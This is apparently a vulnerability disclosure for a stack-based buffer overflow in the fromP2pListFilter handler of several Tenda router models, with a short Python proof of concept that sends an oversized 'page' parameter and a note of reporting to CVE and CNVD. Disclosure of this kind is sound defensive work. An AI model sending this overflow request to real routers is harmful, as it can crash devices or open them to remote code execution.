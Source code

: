 # Tenda Router Vulnerability on fromP2pListFilter function

This vulnerability lies in the `/goform/fromP2pListFilter` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence PA202,PW201A

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromP2pListFilter` it reads 1 user provided parameters `page` into `v8`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v11`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromP2pListFilter`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromP2pListFilter?"
url += "page=" + "s" * 0x200
url += "&op=no"


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge